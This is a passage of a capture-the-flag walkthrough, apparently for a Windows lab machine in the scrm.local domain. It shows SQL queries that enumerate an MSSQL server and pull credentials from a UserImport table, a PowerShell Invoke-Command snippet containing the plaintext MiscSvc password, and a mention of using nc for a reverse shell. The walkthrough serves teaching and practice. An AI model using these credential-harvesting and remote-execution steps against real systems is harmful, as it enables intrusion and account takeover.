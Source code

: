Running shortest path to high targets query didn't showed anything interesting path

<img src="https://i.imgur.com/aMu2jLw.png"/>

## Privilege Escalation (miscsvc)

Having a look back at the pdf we found it talks about the credentials being retrieved

<img src="https://i.imgur.com/ad4ZcZB.png"/>

So going back to mssqclient we can execute quries, let's run a query for getting the database names

```sql
SELECT name FROM master.dbo.sysdatabases;
```

<img src="https://i.imgur.com/yAn1H2N.png"/>

Switching to `ScrambleHR` database, we can now list the tables


```sql
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE';
```

<img src="https://i.imgur.com/Tn0QvhX.png"/>

From `UserImport` table we can get credentials for `MiscSvc`

<img src="https://i.imgur.com/t968NjH.png"/>

Having the credentials, since NTLM authentication is disabled we can't use winrm to login, so we'll just have to use powershell `Invoke-Command`

```powershell

$SecPassword = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('scrm.local\MiscSvc', $SecPassword)
 
 Invoke-Command -Computer 127.0.0.1 -Credential $Cred -ScriptBlock { whoami }
```

<img src="https://i.imgur.com/mC2P6iF.png"/>

Transferring nc in miscsvc's directory we can get a reverse shell as this user

<img src="https://i.imgur.com/TdyODg0.png"/>

## Privilege Escalation (NT / Authority )
We are in IT group so we can now access the IT folder from the share and there's ScrambleClient exe and dll

<img src="https://i.imgur.com/k2nhABY.png"/>
